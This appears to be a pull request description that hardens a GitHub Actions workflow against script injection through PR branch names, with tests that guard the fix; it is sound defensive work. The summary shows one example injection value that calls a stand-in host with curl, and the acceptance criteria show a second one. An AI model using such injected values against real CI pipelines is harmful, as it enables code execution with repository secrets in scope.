

# security: harden quality.yml against GitHub Actions script injection

## Summary

`.github/workflows/quality.yml` was interpolating
`github.event.pull_request.head.ref` (the PR source branch name, attacker-
controllable by anyone who can open a PR) directly into a bash `run:` block via
`${{ … }}`. The expansion happens **before** bash sees the
script, so a branch name like `foo"; curl evil.example #` would have escaped its
quoting and executed inside the runner with `secrets.ACTIONS_PUSH` in scope — a
textbook GitHub Actions script-injection. Closes #2709.

This PR hardens the workflow by:

1. **Passing untrusted GitHub context through `env:`** in both the
   `Setup Branch` and `Push Changes` steps. The values reach bash as variable
   values (single argv elements), not as script source text, so shell
   metacharacters can no longer break out of quoting.
2. **Validating the branch-name format** with an allowlist regex
   (`^[A-Za-z0-9._/-]+$` plus an explicit `!= -*` check) before it is used.
   Defence in depth against names beginning with `-` that would otherwise be
   parsed by git as flags.
3. **Appending `--`** to the `git checkout` commands so any remaining ambiguity
   around option parsing is closed off.

## Evidence

This is a CI workflow change; no UI or runtime benchmark is applicable. The fix
is verified by a new test that parses `quality.yml` and asserts the forbidden
pattern is gone:

- `test/ci/QualityWorkflowScriptInjection.ts`
  - `findGithubContextInRunBlocks` parser unit tests (3 cases).
  - `quality.yml does not interpolate any github.* context into run blocks` —
    scans the actual workflow file and fails if any `github.*`, `secrets.*`,
    `inputs.*`, `env.*`, or `steps.*.outputs.*` expression appears inside a
    `run: |` block. Failed on the unfixed workflow with four offending lines;
    passes after the fix.
  - `quality.yml git checkout uses '--' end-of-options sentinel` — guards the
    defence-in-depth `--` placement.

### Data flow before vs after





## Test Plan

- [x] `deno test --allow-read test/ci/QualityWorkflowScriptInjection.ts` — 5 / 5
      pass.
- [x] `deno test --allow-read test/ci/ShellcheckWorkflowPinning.ts` — 5 / 5 pass
      (unchanged).
- [x] `./quality.sh --lint-only` — clean.
- [x] YAML parses cleanly via `@std/yaml`.
- [x] `git checkout <branch> --` and `git checkout -b <branch> --` confirmed to
      switch branches correctly (manual reproduction in a scratch repo).

## Acceptance criteria

- [x] `quality.yml` no longer expands `github.event.pull_request.head.ref`,
      `github.ref_name`, or any other GitHub-context string directly inside a
      `run:` script body.
- [x] All untrusted context strings are passed via the step `env:` map and
      referenced as `"$VAR"` in the bash body.
- [x] Branch names matching the injection pattern (`foo"; echo INJECTED #`) are
      now rejected by the allowlist regex before they reach git, verified by the
      validation block in the workflow.
